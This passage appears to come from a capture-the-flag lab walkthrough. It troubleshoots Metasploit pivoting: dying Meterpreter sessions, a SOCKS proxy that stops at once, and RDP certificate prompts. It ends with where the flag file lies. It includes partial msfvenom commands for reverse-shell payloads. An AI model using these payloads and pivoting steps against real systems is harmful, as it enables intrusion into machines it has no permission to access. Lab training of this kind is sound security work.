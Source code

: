 ### Issue 2: Meterpreter Session Dies
**Symptoms:**
- "Meterpreter session closed. Reason: Died"
- Segmentation faults

**Solutions:**
1. Try different payload architectures:
```bash
# 32-bit payload
msfvenom -p linux/x86/meterpreter/reverse_tcp ...

# Shell payload (more stable)
msfvenom -p linux/x64/shell_reverse_tcp ...
```

2. Use port forward instead of SOCKS proxy

### Issue 3: SOCKS Proxy Stops Immediately
**Symptoms:**
- "Starting the SOCKS proxy server"
- "Stopping the SOCKS proxy server" (immediately)

**Solutions:**
1. Check port conflicts:
```bash
netstat -tulpn | grep 9050
```

2. Use different SRVHOST:
```bash
set SRVHOST 127.0.0.1  # Instead of 0.0.0.0
```

3. Kill conflicting jobs:
```bash
jobs
kill 0  # Kill specific job
```

### Issue 4: RDP Certificate Warnings
**Expected behavior:**
```
The above X.509 certificate could not be verified...
Do you trust the above certificate? (Y/T/N) Y
```
**Action:** Type `Y` to accept and continue

---

## Flag Location
Once RDP connection is established:
1. Navigate to `C:\` drive
2. Locate `Flag.txt` file
3. Open and read contents
